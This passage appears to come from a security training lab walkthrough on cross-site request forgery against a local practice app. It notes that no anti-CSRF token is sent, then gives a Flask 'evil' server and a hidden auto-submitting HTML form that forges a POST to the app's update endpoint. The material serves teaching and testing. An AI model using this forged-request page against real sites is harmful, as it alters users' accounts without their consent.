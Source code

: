 ![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/CSRF-SameSite/3.png)

Also we can see that the application is not using any form of protection for preventing CSRF because there is no unique token being send in the POST request.

## Exploitation

In order to to exploit this vulnerability we need to set up our evil webserver to do the malicious CSRF using a POST request from. We could achieve this by creating the following python flask application.

```python
from flask import Flask, request, url_for, render_template, redirect, make_response
import requests


app = Flask(__name__, static_url_path='/static', static_folder='static')

app.config['DEBUG'] = True

@app.route("/")
def start():
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to > app.py and run the commands below to install some dependencies.

```
$ pip install flask
$ pip install requests
$ python app.py
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

Now that the service is running we want to serve the malicious piece of javascript that is responsible for performing the malicious CSRF POST request.

```markup
<iframe style="display:none" name="csrf-frame"></iframe>
<form method='POST' action='http://localhost:5000/update' target="csrf-frame" id="csrf-form">
  <input type='hidden' name='color' value='Hackzord!'>
  <input type='submit' value='submit'>
</form>
<script>document.getElementById("csrf-form").submit()</script>
```

Save the snippet above to > templates/evil.html and run the command below to start our evil application.

```
$ python app.py
```
